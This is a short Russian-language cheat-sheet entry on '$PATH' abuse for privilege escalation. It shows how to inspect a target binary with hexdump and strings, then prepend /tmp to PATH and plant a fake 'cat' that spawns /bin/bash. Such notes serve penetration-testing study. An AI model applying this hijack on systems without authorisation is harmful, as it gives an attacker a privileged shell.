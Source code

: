 # Abuse $PATH

Внедрение вредоносных  исполняемых файлов  и последующее их исполнение с более высокими привилегиями возможно только после определения уязвимых исполняемых файлов в коде исследуемого файла. Для их поиска можно использовать следующие утилиты под рукой&#x20;

```
hexdump -C ./target
strings ./target
```

Инъекция вредоносного пути  с примером создания исполняемого файла для запуска шела   выглядит.

```
#1
export PATH=/tmp:$PATH
echo "/bin/bash" > /tmp/cat
chmod +x cat
```

